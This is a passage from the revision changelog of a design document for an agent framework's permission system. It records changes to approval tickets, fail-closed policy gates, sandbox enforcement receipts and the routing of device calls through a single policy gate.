   document flagged as recommended was ratified 2026-08-19** (`PLAN.md` §D5). D5's
   third clause now reads "supervised worker processes, one per active extension, keyed
   `(layer, tier, extension)`; pooling is explicit opt-in fate-sharing", with SIGKILL blast
   radius one extension and approval "a durable Core-owned ticket". The Rev 2 flag is kept
   here as the historical record. One correction from Revision 1 stands unchanged: it was never true that
   cancelling one device call kills every concurrently running device today, because nothing
   runs concurrently today — `run_invocation` services exactly one invocation while the rest
   wait in a `VecDeque<PendingInvocation>` (`worker.rs:592-727`, `:777-789`); the blast
   radius was bounded by serialization, and it is now bounded by isolation.
   `Abort::EffectsUnknown` (`crates/tool/src/lib.rs:319-323`) remains the honest report for
   what a kill does to a co-resident invocation *within* one extension, and a call that has
   passed admission but not yet observed its effect is still exactly the case where "effects
   unknown" is the most expensive possible answer.

### Revision 2 (post-review)

Changes this file made for Revision 2, and the review point that drove each:

- **P0#6 — approvals are tickets, not suspensions.** `await policy.approve()` and the
  suspended-coroutine model are deleted; the Approvals section now defines `omp.ApprovalSpec`
  (renamed from `ApprovalRequest`), the Core-persisted durable `omp.ApprovalTicket`, and the
  flow in which an `APPROVAL`-phase hook returns `RequireApproval(ApprovalSpec(...))` (the
  decision arm is owned by `docs/py/05-hooks.md`). Ticket properties: survives extension
  restarts, never occupies a host coroutine, exactly one unspoofable dialog,
  headless/external approval as ticket properties. `ApprovalUnavailable` is deleted
  (nothing waits, so nothing raises); `@omp.approver` receives a ticket and keys idempotence
  on `ticket_id`; `pending()` returns tickets; `Amend`/`policy.amend` gained `approval=` so
  widening grants ride the same mechanism. The reversal is recorded in prose at the top of
  the Approvals section.
- **P0#6 — "pure courier" retracted.** "Where the gate sits" now states that Agent Core runs
  the per-invocation decision procedure and the environment owns the gate, records the
  reversal in prose, reads D6 as forbidding batch-level admission scheduling (not the
  per-invocation procedure), flags the recommended D6 wording amendment for `PLAN.md`,
  and keeps the invariant verbatim: one slow approval never serializes the batch. The build
  section's "courier, not gate" subsection is retitled and rewritten; the feature-map
  "relays rather than decides" prose is corrected to match.
- **P0#4 — no DATA before admission.** New "No DATA before admission" concept section: the
  confidentiality rationale (a denied read that already happened leaked content even though
  the world is untouched), both bounds stated (extension code must not touch DATA before
  `ADMITTED`; v1 bodies start only at `EFFECTS_AUTHORIZED`), policy transformation completing
  before extension execution, and prepare tokens as future work carrying the
  never-change-read-identity invariant. Revision 1's "a dry-run preview computed during
  speculation is disposable by construction" is retracted there in prose.
- **P0#7 — fail-closed stays closed.** New "What fail-closed means after a failure" section:
  the three-state lifecycle, the synthetic Deny stub built from the manifest declaration,
  crash/quarantine/remote-loss all preserving the stub, "this policy is buggy" never equaling
  "its protected operations are now allowed", and the 64-handler cap truncating `OBSERVE`
  only (mandatory-gate overflow is an activation-time error). The failure-and-cancellation
  table gained matching rows; the reversal prose records that Revision 1 deferred to a
  failure table that cleared subscriptions after a crash.
- **P0#13 — derived facts auto-regenerate.** New "Transforms, derived facts, and the audit
  trail" section. The Revision 1 rule that `Modify` does not recompute the IR and authors
  should call `omp.policy.parse()` manually is deleted with reversal prose; any `TRANSFORM`
  mutation of target/command/cwd/environment/path-bearing args now invalidates and
  regenerates all derived facts before the next phase sees the call; the durable audit record
  carries `requested_target, requested_args, transformations[], effective_target,
  effective_args, derived_ir_revision`; target redirection requires an explicit manifest
  capability, cannot raise the approval tier, cannot introduce capabilities absent from the
  original effect envelope, and is always visible in user approval. The proto sketch's
  `Admission` message carries the regeneration note and a structured `PolicyDenied` instead
  of bare reason/code strings.
- **P0#18 — structured denial.** A denial settles as
  `CallOutcome.Aborted(kind=POLICY_DENIED, policy=PolicyDenied(...))` per
  `docs/py/02-verdicts.md`. Revision 1's claims that a denial journals as `Abort::Skipped`
  and that "`omp.Deny(code=…)` has nowhere to land yet" are deleted with reversal prose in
  "Where the gate sits" and in the `crates/tool` build item; the failure table and the
  cc-safety-net port prose name the structured outcome.
- **P0#19 — enforcement receipts.** New `omp.SandboxEnforcement` (graded
  filesystem/network/process axes, backend, `degraded_reasons`) and
  `omp.policy.enforcement()`; the rule that `ENFORCE` meets declared requirements or refuses
  to run — never silent degradation to observation. The honest platform-gap admissions
  (in-process shell, hostname egress, deprecated Seatbelt, Windows) are kept, with open
  questions 2 and 4 restated in receipt vocabulary. The worker-transport fix shapes are now
  stated as requirements owned by `docs/py/04-placement.md`.
- **UX#1 — effect envelopes, enforcement side.** New "Effect envelopes and capability tokens"
  section: hooks narrow the declared `omp.Effects` envelope (owner `docs/py/01-devices.md`),
  Core issues a scoped capability token at `EFFECTS_AUTHORIZED`, the Environment enforces it
  without re-prompting, escalation beyond the envelope fails rather than re-prompting, and
  policy hooks gain a static subject.
- **P0#10 linkage — open question 7 resolved.** The cancellation-granularity question is
  rewritten: per-extension processes (the decided topology) plus durable approval tickets
  resolve the deadlock; the recommended D5 amendment ("warm pool of one" → warm process per
  active extension) is stated explicitly and flagged for `PLAN.md`, never silently
  contradicted.
- **§0 renames, file-wide.** Hook signatures return `omp.HookDecision` (never `Verdict`);
  `Priority` bands became `omp.HookPhase` with `phase=` in every decorator (pattern hooks
  re-homed to PRECHECK/TRANSFORM/REVIEW/APPROVAL, and the pi-permission-system port's
  interactive terminal became an `APPROVAL`-phase `RequireApproval`); millisecond constants
  and fields became `omp.Duration` (`POLICY_DEADLINE`, `APPROVAL_DEADLINE`,
  `VIOLATION_COALESCE`, `ApprovalSpec.timeout`, `ResourceBudget.wall`/`.cpu`, approver
  `timeout=`, completion `deadline=`); locations are typed (`event.cwd` and
  `SandboxRequest.cwd` are `EnvPath`, roots are `WorkspaceUri`, with `match_paths(path: str)`
  deliberately kept raw and the reason stated); late-activation re-offer language uses
  `extension_activate`, never `session_start`; the guardian example's raw string/dict
  `journal.append` became a declared `@omp.entry_kind` instance (P0#17); profile composition
  is restated as order-independent rather than `Priority`-ordered.

**Revision 2.1** — the `dyn`/`@omp.tool` rulings addendum and the PLAN.md amendment:

- **Dispatch surface.** "One event, one gate, one tagged target" was rewritten from the
  retired write-URL dispatch to the `dyn` core tool: `{"do_": "invoke/<path>"}` fires one
  `tool_call` with the RESOLVED `target=DeviceCall(...)`; `{"do_": "search"}` and
  `{"do_": "docs/<path>"}` fire `target=CoreTool("dyn")`; `dyn` is transport, never the
  policy subject, so a guard on the resolved device cannot be bypassed by the envelope.
  Rev 2 kept the read/write device URL scheme as the dispatch surface; the Rev 2.1 ruling
  deletes that scheme entirely — discovery, docs, and dispatch are `dyn` ops, and the
  `do_` grammar, the ergonomic `@omp.tool` soft default, and the typed `omp.ToolPath` are
  owned by `docs/py/01-devices.md`. The one-gate rule transfers to `dyn` unchanged.
- **D5/D6 ratified.** `PLAN.md` §D5/§D6 was amended 2026-08-19. "Where the gate sits"
  now quotes D6's amended text — batch-level scheduling prohibited, the per-invocation
  decision procedure explicitly permitted — instead of flagging a recommended wording
  amendment; open question 7 records the D5 amendment as ratified (per-extension worker
  processes keyed `(layer, tier, extension)`, pooling as opt-in fate-sharing, durable
  approval tickets) instead of flagging it. Both Rev 2 flags are kept in prose as
  historical records.

**Revision 2.2** — the `dyn` shell-builtin transport ruling: the dedicated `dyn` core tool and its `do_` envelope are deleted. Devices are discovered, documented, and dispatched through the `dyn` builtin of the embedded shell, inside the core `shell` tool: `dyn` lists the catalog (`dyn --q <text>` searches), `dyn <device> --help` returns docs plus schema-derived CLI usage, and `dyn <device> [args…]` (or `dyn <device> --json '<payload>'`) invokes — arguments arrive as one nested JSON document mapped from the CLI ([01-devices.md](01-devices.md) owns the schema→CLI grammar). Staged-proposal resolution is `dyn resolve "<reason>"` / `dyn reject "<reason>"`. The `do_`/trailing-underscore reserved-parameter rule is deleted with the envelope. The one-gate rule transfers intact: an `dyn` device dispatch fires one `tool_call` with the RESOLVED `target=DeviceCall(...)`; catalog and docs reads fire `target=CoreTool("shell")` — the builtin is transport, never the policy subject. The model's tool array shrinks by the `dyn` slot; a device still has no schema in the request.

In this file, the live admission semantics now resolve `dyn` device invocations directly to one `DeviceCall` gate, expose only decoded nested arguments to policy, and gate catalog/docs reads as `CoreTool("shell")`.
